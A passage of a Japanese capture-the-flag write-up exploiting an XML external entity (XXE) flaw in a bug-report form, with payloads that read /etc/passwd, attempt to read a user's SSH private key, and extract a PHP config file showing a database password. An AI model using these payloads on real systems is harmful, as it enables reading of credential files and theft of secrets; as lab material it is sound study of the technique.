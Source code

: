 とりあえずXXEが使えそうなので、次から色々試してみます。

## XXEの悪用

Googleコンソールから、スクリプトを以下のように改変してフォームを実行します。

``` javascript
async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">] > 
		<bugreport>
		<title>&xxe;</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```

これで`title`要素にBase64エンコーディングされたpasswdが返ってきます。

一般ユーザの名前を見ると`development`となっていたので、以下のようなXXEでユーザフラグや秘密鍵が取れないか試してみたのですが、残念ながら失敗しました。

``` bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/development/user.txt">] >
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/development/Desktop/user.txt">] >
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/development/.ssh/id_rsa">] >
```

そこで、サーバ内で稼働している他のファイルの情報を取得していくことにしました。

先ほどのfeloxbusterの結果から、`db.php`というファイルが怪しそうです。

``` php
# <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]

<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```
